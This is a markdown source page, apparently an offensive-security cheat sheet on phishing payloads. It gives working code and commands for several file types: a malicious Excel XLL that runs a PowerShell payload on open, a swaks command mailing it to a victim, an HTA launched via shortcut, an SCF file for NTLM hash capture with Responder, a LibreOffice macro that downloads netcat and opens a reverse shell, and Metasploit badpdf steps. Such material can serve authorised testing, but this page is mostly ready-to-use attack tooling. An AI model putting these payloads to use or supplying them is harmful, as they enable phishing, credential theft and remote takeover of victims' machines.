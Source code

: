 ```yaml
---
title: "Phishing"
date: 2024-6-26
tags: ["Phishing", "Social Engineering", "Responder", "Phishing Campaigns", "Email", "Xll", "Excel", "Hta", "Shortcut", "Windows", "Odt", "Libre", "Vba", "Ntlm_Theft", "Pdf", "Ntlm"]
---
```


{{< tab set1 tab1 >}}lnk{{< /tab >}}
{{< tab set1 tab2 >}}xll{{< /tab >}}
{{< tab set1 tab3 >}}hta{{< /tab >}}
{{< tab set1 tab4 >}}scf{{< /tab >}}
{{< tab set1 tab5 >}}odt{{< /tab >}}
{{< tab set1 tab6 >}}pdf{{< /tab >}}
{{< tab set1 tab7 >}}others{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$obj = New-Object -ComObject WScript.Shell
```

```console
$link = $obj.CreateShortcut("C:\ProgramData\Calculator.lnk")
```

```console
$link.TargetPath = "C:\ProgramData\rev.exe"
```

```console
$link.Save()
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### shell.c

```console
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("<POWERSHELL_3_BASE64>", 1); // Replace your payload
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

#### 1. Compile shell.c in Linux

```console
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll shell.c -luser32
```

#### 2. Send email with the malicious xll file

```console
swaks --to '<VICTIM>@<DOMAIN>' --from 'attacker@<DOMAIN>' --server '<DOMAIN>' --header 'This is not a malicious file' --body 'This is not a malicious file' --attach '@shell.xll'
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### 1. Start a Local SMB Server

```console
# In our local Linux machine
impacket-smbserver -smb2support share .
```

#### 2. Create a Malicious hta File in local Linux SMB share

```console
<html>
    <head>
        <HTA:APPLICATION ID="shell">
        <script language="javascript">
            var c = "<POWERSHELL_3_BASE64>";  
            new ActiveXObject('WScript.Shell').Run(c, 0, true); 
        </script>
    </head>
    <body>
        <script>self.close();</script>
    </body>
</html>
```

#### 3. Create a shortcut file in target Windows

```console
# In target Windows machine (powershell)
$url = "file://<LOCAL_IP>/share/shell.hta"
```

```console
$shortcutPath = "C:\ProgramData\shell.url"
```

```console
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
```

```console
Set-Content -Path $shortcutPath -Value $shortcutContent
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

### If any interaction from target to smb share

#### 1. Start Responder

```console
# In our local Linux machine
sudo responder -I tun0
```

#### 2. Create a malicious shortcut

```console
[Shell]
Command=2

IconFile=\\<LOCAL_IP>\icon
```

#### 3. Upload the malicious shortcut

```console
# In our local Linux machine
smbclient -N \\\\<TARGET>\\share\\
```

```console
mput evil.scf
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

```console
+--------------------------------------------------------+
| 1. "Tools" > "Macros" > "Organize Macros" > "Basic..." |
| 2. "Untitled 1" > "Standard" > "New"                   |
| 3. "Paste the code below"                              |
+--------------------------------------------------------+
```

<br>

```console
Sub OnLoad
    shell("cmd /c certutil -urlcache -split -f http://<LOCAL_IP>/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd <LOCAL_IP> <LOCAL_PORT>")
End Sub
```

<br>

```console
+-----------------------------------------------------------+
| 4. "Tools" > "Organize Macros" > "Basic..." > "Assign..." |
| 5. "Events" > "Open Document" > "OK"                      |
| 6. "SAVE"                                                 |
+-----------------------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab6 >}}

```console
msfconsole -q
```

```console
search badpdf
```

```console
set filename evil.pdf
```

```console
set lhost <LOCAL_IP>
```

```console
exploit
```

{{< /tabcontent >}}
{{< tabcontent set1 tab7 >}}

```console
python3 ntlm_theft.py -g all -s <LOCAL_IP> -f test
```

<small>*Ref: [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)*</small>

{{< /tabcontent >}}
